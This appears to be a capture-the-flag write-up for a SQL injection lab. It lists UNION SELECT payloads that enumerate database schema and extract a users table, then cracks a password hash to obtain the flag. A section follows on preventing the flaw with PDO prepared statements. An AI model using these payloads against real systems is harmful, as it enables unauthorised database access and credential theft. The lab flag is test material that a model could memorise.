 # SQL Injection - Members

10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

---

## Description

go to `/?page=member`

submit :
- `1 AND 1=2 UNION SELECT column_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_schema, 1 FROM information_schema.tables`

then \
`1 AND 1=2 UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users`

"Decrypt this password -> then lower all the char. Sh256 on it and it's good !" \

password => 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo

FortyTwo = fortytwo 
fortytwo => sh256 => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

---

## How to prevent it ?

In the case of a php back-end, use PDO :
- The query will be sanitized with the `prepare` statement
- It will then be executed with the `execute` statement once the risk of an undesired effect is avoided

Here is a more detailed explanation found on SO regarding the `prepare` command :

>"The SQL statement you pass to prepare is parsed and compiled by the database server. By specifying parameters (either a ? or a named parameter like :name in the example above) you tell the database engine where you want to filter on. Then when you call execute, the prepared statement is combined with the parameter values you specify.

>The important thing here is that the parameter values are combined with the compiled statement, not an SQL string. SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters, you limit the risk of ending up with something you didn't intend."